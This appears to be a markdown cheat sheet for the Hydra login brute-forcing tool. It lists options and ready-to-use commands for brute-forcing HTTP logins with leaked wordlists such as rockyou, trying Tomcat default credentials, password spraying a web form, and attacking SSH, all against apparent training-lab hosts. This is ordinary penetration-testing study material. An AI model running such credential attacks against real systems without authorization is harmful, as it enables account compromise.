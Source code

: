# hydra

## Overview

Hydra is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others. It can test any pair of credentials and verify whether they are successful or not but in huge numbers and a very quick manner.

## Installation

	apt install hydra

## Options

	-U : shows the parameters required by an hydra module
	-C <path_to_wordlist>: Combined credentials wordlist
	-L <path_to_username_wordlist> : username wordlist
	-l <username> : specify a static username to use
	-P <path_to_passoword_wordlist> : password wordlist
	-p <password> : specify a static password to use
	-s <port>: target port
	-f : tell hydra to stop when we have a successfull brute force
	-u: tells hydra to first try all users for each password. Instead of the normal behaviour of trying all passwords for each user. This is usefull for gigantic password lists like rockyou
	http-get : Get request method
	/ : Target url path

## Usage

	hydra -C <path_to_wordlist> <server_ip> -s <port> http-get /

Using different wordlists

```shell
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

Default Login popup on a webserver

```shell
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt <ip_target> -s 8080 http-get /manager/
```

Password Spray on a regular webapp

```shell
#Invalid Credentials! is the error message the webapp show when a login attempt fails
hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials!"
```

Bruteforce ssh

```shell
hydra -L users.txt -P passwords.txt ssh://editorial.htb
```

